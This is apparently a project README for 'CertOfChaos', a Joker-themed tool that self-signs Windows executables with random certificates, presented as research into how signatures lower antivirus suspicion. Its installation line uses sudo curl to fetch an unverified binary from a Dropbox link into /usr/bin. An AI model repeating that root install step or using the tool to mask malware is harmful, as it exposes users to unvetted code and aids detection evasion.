

<p align="center">
  
</p>

<p align="center">
  <i>"Why so serious about certificates?"</i>
</p>

<p align="center">
  
  
  
  
</p>

<p align="center">
  A Joker-themed EXE code signing research toolkit for Linux.<br/>
  Explore how digital signatures influence trust, detection engines,<br/>
  and antivirus decision-making in controlled lab environments.
</p>

<br/>

---

```text
♠  Madness, as you know, is like gravity — all it takes is a little push.
♣  Trust is not binary — it's scored, weighted, and sometimes manipulated.
♥  A signed binary is not always a safe binary.
♦  Some systems trust the signature more than the behavior.
```

---

## 🧠 The Real Idea — Code Signing & AV Evasion (Research Perspective)

Modern antivirus and endpoint protection systems don’t just rely on file signatures (hashes) — they also evaluate **trust signals**, one of the strongest being:

> ✅ **Digital Code Signing (Authenticode)**

### Why signing matters in detection:

- ✔️ Signed binaries often receive **lower initial suspicion scores**
- ✔️ Some security tools prioritize **behavior over signature** if signed
- ✔️ Unsigned executables are more likely to trigger:
  - SmartScreen warnings
  - Heuristic flags
  - Reputation-based blocking

### Where things get interesting:

- ❗ Self-signed certificates can simulate **trusted-looking binaries**
- ❗ Signing changes file hash → impacts static detection
- ❗ Timestamping can make signatures appear **persistent**
- ❗ AV engines differ in how they **weigh trust vs behavior**

> ⚠️ This tool is designed to **study these behaviors**, not abuse them.

---

## ♠ Installation — One-liner (Kali / Debian / Ubuntu)

```bash
sudo apt install -y osslsigncode && sudo curl -L "https://www.dropbox.com/scl/fi/4142uewub1wgggyo6g9jx/CoC?rlkey=d0w62dxyzcfgogbsz8t4mcdwi&st=xu9avzx3&dl=1" -o /usr/bin/CertOfChaos && sudo chmod +x /usr/bin/CertOfChaos
```

Then run:

```bash
CertOfChaos
```

---

## ♥ Features

| | Feature | Description |
|---|---|---|
| 🃏 | **Random Cert Generation** | Generates randomized self-signed certificates for testing trust models |
| ✍️ | **EXE Signing** | Apply Authenticode signatures to PE binaries |
| 📦 | **Batch Signing** | Automate signing across multiple samples |
| 🔍 | **Verification Engine** | Validate how systems interpret self-signed chains |
| 🔒 | **Crypto Control** | RSA key sizes + hashing algorithms |
| ⏱️ | **Timestamping** | Observe impact of trusted timestamp authorities |
| 📋 | **Presets** | Simulate different “identities” for testing |
| 🎨 | **Joker UI** | Because chaos should look good |

---

## ♦ How It Works

```text
1. Generate self-signed X.509 certificate
        ↓
2. Convert to PKCS#12 (.pfx)
        ↓
3. Sign executable using osslsigncode
        ↓
4. Validate signature & trust behavior
```

---

## 🧪 What You Can Study With This

### 🔍 Antivirus Behavior

- Difference between **signed vs unsigned binaries**
- Static detection vs **reputation-based filtering**
- Impact of **certificate metadata randomization**

### 🛡️ Defensive Research

- How attackers may attempt to **blend into trusted software**
- Weaknesses in **trust-chain validation**
- How EDR tools evaluate:
  - Signature validity
  - Behavior
  - Origin

### 🧬 Binary Mutation Testing

- Signing changes binary hash → test **signature-based detection limits**
- Evaluate **multi-engine scanning differences**

---

## ⚠️ Ethical Use Notice

This project is strictly for:

- ✔️ Cybersecurity research  
- ✔️ CTF challenges  
- ✔️ Malware analysis labs  
- ✔️ Defensive security testing  

**Not intended for:**

- Unauthorized evasion  
- Real-world misuse  
- Bypassing security systems outside controlled environments  

---

## ♣ Dependencies

| Dependency | Purpose |
|---|---|
| `osslsigncode` | Authenticode signing engine |
| `cryptography` | Certificate generation |
| `tkinter` | GUI |

---

## 🃏 Final Note

> Code signing doesn’t make software safe.  
> It makes it **trusted — sometimes blindly**.

---

<p align="center">
  <b>♠ ♣ &nbsp;&nbsp; CertOfChaos &nbsp;&nbsp; ♥ ♦</b><br/>
  <i>"Introduce a little anarchy in the trust model."</i>
</p>
